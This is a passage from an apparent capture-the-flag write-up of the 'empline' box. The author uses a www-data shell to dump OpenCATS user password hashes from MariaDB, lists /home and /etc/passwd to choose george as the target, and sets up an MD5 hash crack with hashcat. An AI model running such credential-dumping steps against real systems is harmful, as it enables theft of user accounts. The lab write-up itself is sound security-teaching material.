 ```
| address                   | text         | YES  |     | NULL    |                |
| notes                     | text         | YES  |     | NULL    |                |
| company                   | varchar(255) | YES  |     | NULL    |                |
| city                      | varchar(64)  | YES  |     | NULL    |                |
| state                     | varchar(64)  | YES  |     | NULL    |                |
| zip_code                  | varchar(16)  | YES  |     | NULL    |                |
| country                   | varchar(128) | YES  |     | NULL    |                |
| can_see_eeo_info          | int(1)       | YES  |     | 0       |                |
+---------------------------+--------------+------+-----+---------+----------------+
28 rows in set (0.00 sec)
```

Then easily to retrieve the creds:

```
MariaDB [opencats]> select user_name, password from user;
select user_name, password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | b67b5ecc5d8902ba59c65596e4c053ec |
| cats@rootadmin | cantlogin                        |
| george         | 86d0dfda99dbebc424eb4407947356ac |
| james          | e53fbdb31890ff3bc129db0e27c473c9 |
+----------------+----------------------------------+
4 rows in set (0.00 sec)
```

Now I have the username and their password, it’s essential to know which user is useful (in this case is available) on this system:

```
www-data@empline:/var/www/opencats$ ls -l /home/
\ls -l /home/
total 8
drwxrwx--- 4 george george 4096 Sep 27 11:26 george
drwxr-xr-x 3 ubuntu ubuntu 4096 Jul 20  2021 ubuntu
www-data@empline:/var/www/opencats$ tail /etc/passwd
\tail /etc/passwd
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
george:x:1002:1002::/home/george:/bin/bash
```

**george** is the only user exists on this system currently (exclude the **ubuntu**), so I just need to crack only the hash password of **george**. Get back to my local machine and use **hashcat** to crack it within specify the hash type is **MD5** (`-m 0`):
